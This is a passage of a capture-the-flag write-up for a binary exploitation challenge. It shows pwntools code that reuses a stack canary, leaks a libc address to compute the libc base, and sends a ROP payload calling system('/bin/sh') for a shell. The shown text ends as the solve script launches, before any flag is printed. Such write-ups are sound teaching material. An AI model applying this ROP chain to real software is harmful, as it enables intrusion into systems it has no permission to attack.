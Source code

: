 ```py
    p64(elf.address + 0x000000000001403),
    p64(3),
    p64(timeloop_address)
)
```
2. On the second loop, basically do the similar thing on day 1 and 2, except this time 
- the return address would be a libc address which helps us to calculate libc base and addresses of `system` 
- we don't need to leak canary as it is the same as first loop, it did not reset, according to pure observation in `pwndbg`
```py
# first day, do nothing, no canary to leak as it is the same as the first loop 
p.recvuntil(b"hours remaining\n")
p.send(b'A' * 25 )
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")


# first day of second loop 
p.recvuntil(b"hours remaining\n")
p.send(b'C' * 7 + b'D' * 8) # 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
libc_return_addr = output[40:46].ljust(8, b'\x00')
libc_return_addr = u64(libc_return_addr) - 243



libc.address = libc_return_addr - libc.sym['__libc_start_main'] 
print(hex(libc.address))
```
The only weird thing is that I am doing the following specifically on second day of second loop
```py
p.send(b'C' * 7 + b'D' * 8) # 
```
as opposed to the first day 
```
p.send(b'B' * 24 + b'C' * 16) # 
```
is because I find out that our `read` function in the second loop does not overwrite the previous written bytes unlike the first loop.  
The overwrite starts after the last written byte in the first day on second loop, very interesting. I am guessing that is because some pointer values in the array corrupted due to unexpected program behaviour of loop back.

After we get `libc.address`, we send a payload on last day to get a shell! 
```py
payload2 = flat(
    b'B' * 24, # padding to get to canary
    p64(canary),
    b'C' * 8, # padding to get to return address
    p64(elf.address + 0x000000000000101a),
    p64(elf.address + 0x000000000001403),
    p64(next(libc.search(b'/bin/sh'))),
    p64(libc.sym['system'])

)
p.recvuntil(b"hours remaining\n")
p.send(payload2)
```
The flag:
```
┌──(kali㉿kali)-[~/Desktop/CTF/legend]
└─$ python solve.py  
[+] Starting local process './program_patched': pid 57486
```